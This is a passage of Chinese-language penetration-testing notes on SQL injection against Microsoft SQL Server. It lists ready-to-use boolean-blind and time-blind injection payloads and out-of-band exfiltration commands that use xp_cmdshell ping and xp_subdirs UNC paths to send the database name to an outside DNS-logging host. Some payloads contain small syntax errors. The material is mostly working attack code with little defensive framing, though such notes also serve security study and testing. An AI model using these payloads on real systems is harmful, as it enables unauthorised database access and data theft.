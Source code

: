 #### (3). 布尔盲注

* 用法和mysql类似，**使用ascii和substring比对**

```
1. 获取数据库名
	id=1 and (ascii(substring((select top 1 name from sys.sysdatabases),n,1),1,1)=m)  --+	//n表示第几个字符，m表示ascii范围
```

#### (4). 时间盲注\

* 使用**WAITFOR DELAY '0:0:5'**

```
id=1 if(ascii(substring((select top 1 name from sys.sysdatabases),n,1 ))=m) waitfor delay 0:0:5 --+	//n表示第几个字符，m表示ascii范围
```

##### e. 数据外带

###### ①常用平台

dnslog.cn、ceye.io、burpsuite collobrator

###### ②原理

* 利用**xp_cmdshell**扩展存储过程指定ping dnslog平台命令带出数据
* 利用**xp_subdirs**、**xp_dirtree**、**xp_fileexist**使用**unc路径**判断文件发起请求带出数据

###### ③DNS数据外带

1. 实例

```
declare @a varchar(8000);
set @a=db_name();		//将sql语句绑定到变量上
exec('master..xp_cmdshell "ping.exe '+@a+'.Laffrex.eyes.sh -n 1"') --+
	or
exec('master..xp_cmdshell "ping.exe '%2b@a%2b'.Laffrex.eyes.sh -n 1"') --+
```

2. 方式

   1. **存在堆叠注入数据外带**

   2. mysql堆叠注入函数mysqli_multi_query()

   3. Mssql数据外带利用扩展存储过程：

      * xp_cmdshell执行系统命令

        ```
        id=1';declare @a varchar(8000);set @a=db_name();exec('master..xp_cmdshell "ping.exe '%2b%@a%2b'.Laffrex.eyes.sh -n 1"') --+
        ```

      * xp_subdirs查看路径下的目录

        ```
        id=1';declare @a varchar(8000);set @a=db_name();exec('master..xp_subdirs "//''%2b@a%2b''.Laffrex.eyes.sh\\a"') --+
        ```
